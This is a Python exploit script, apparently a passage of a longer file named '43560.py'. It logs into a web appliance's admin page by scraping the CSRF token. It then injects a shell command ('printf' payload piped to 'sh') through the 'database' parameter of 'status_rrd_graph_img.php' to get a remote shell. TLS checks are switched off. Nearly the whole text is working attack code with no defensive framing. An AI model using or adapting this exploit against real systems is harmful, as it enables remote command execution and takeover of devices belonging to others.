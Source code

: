 ```python title="43560.py"
login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
	('Referer',login_url),
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)

	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers, verify=False)
else:
	print("No CSRF token!")
	exit()

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")
		except:
			print("Exploit completed")
```
